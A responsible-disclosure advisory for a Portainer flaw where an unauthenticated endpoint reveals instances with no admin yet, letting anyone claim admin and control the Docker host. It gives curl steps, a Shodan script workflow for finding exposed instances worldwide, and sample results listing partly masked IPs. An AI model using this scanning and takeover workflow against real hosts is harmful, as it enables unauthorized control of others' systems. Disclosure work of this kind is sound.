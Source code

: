 Responsible Disclosure

# Portainer - Check if admin already created by a public API endpoint

## PRODUCT DESCRIPTION

[Portainer](https://portainer.io) is an open-source lightweight management UI which allows you to easily manage your Docker hosts or Swarm clusters.

## BACKGROUND

- Portainer until 1.19.2

## VULNERABILITY DETAILS

Portainer provides an API endpoint (/api/users/admin/check) to verify that the admin user is already created. This API endpoint will return `404` if admin was not created and `204` if it was already created. This "feature" allows anyone to receive unauthorized access on the host when the portainer is configured incorrectly.

## PROOF OF CONCEPT

Manual steps to reproduce the vulnerability:

1. `docker run --rm -it -p 9000:9000 -v /var/run/docker.sock:/var/run/docker.sock portainer/portainer`
2. `curl -X GET -s -o /dev/null -w "%{http_code}" http://127.0.0.1:9000/api/users/admin/check`
3. If curl return `404`, open web-browser and create a admin password. `xdg-open http://127.0.0.1:9000`

Applying this around the world with shodan:

```bash
git clone git@github.com:lichti/shodan-portainer.git
virtualenv --python python3 .venv
source .venv/bin/activate
pip install -r requirements.txt
export SHODAN_API_KEY=xxxxxxxxxxxxxxxxxxxxxxx
python portainer.py
```

If you has a paid plan, you can use a filters:

```bash
export SHODAN_FILTER = 'country:"BR"'
python portainer.py
```

Output example:

```txt
Country: US | ISP: Digital Ocean | http://142.x.y.158:9001/
Country: CA | ISP: Atlantic.net  | http://45.x.y.165:9000/
Error: skipping 206.x.y.63
```

## WORKAROUND

Forcing the admin password by extra parameter on portainer CLI - [configuration.html#admin-password](https://portainer.readthedocs.io/en/stable/configuration.html#admin-password). On source code [portainer.go#L13-L14](https://github.com/portainer/portainer/blob/develop/api/portainer.go#L13-L14).

## VULNERABILITY DISCLOSURE TIMELINE

**2018-11-19:** Vendor was contacted [#2475](https://github.com/portainer/portainer/issues/2475)

**2018-11-19:** Vendor response and confirm the vulnerability [2475#issuecomment-440104455](https://github.com/portainer/portainer/issues/2475#issuecomment-440104455)

## AUTHOR & REVISION

**Author:** Gustavo Lichti <gustavo.lichti@gmail.com>

**Revision:** 

